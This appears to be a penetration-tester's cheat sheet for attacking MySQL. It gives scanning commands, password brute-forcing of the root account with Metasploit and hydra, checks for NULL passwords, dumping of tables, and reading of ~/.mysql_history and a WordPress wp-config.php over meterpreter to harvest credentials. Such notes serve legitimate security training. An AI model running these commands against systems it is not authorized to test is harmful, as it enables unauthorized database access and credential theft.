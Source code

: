 # MySQL

- Basic nmap scan.
```
nmap -Pn -sV -sC -p3306 <ip>
```

- Check for existing exploits.
```
searchsploit MySQL <version>
```
```
search MySQL <version>
```

- Check MySQL version.
```
use auxiliary/scanner/mysql/mysql_version
```

- Brute-force MySQL login.
  - Focus on root as other accounts may not have sufficient privileges for our intent.
  - root password can be NULL.
  - hydra does not attempt NULL password?
```
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```

- Brute-forcing can result in host being blocked.
  - Need shell on target and MySQL account to run `mysqladmin flush-hosts`.
  - Avoid brute-forcing MySQL? Test for NULL credentials manually.
```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```

- Connect to MySQL remotely.
  - Press Enter for password if NULL.
```
mysql -u root -p -h <ip>
```

- Basic SQL commands.
```
show databases;
use <database>;
show tables;
select * from <table>;
```

- Check users' mysql history file for credentials and other information.
```
cat ~/.mysql_history
```

- Check Web app config file for MySQL root password e.g. WordPress (WAMP).
  - Requires admin privileges.
```
meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', '');
```
